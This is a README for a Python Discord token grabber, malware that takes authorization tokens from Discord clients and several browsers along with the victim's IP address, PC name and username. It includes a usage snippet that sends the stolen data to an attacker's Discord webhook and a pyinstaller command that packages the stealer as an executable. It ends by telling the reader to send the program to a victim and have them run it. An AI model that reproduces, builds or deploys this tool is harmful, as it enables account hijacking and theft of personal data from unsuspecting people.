 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber only supports **Windows**.

# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```
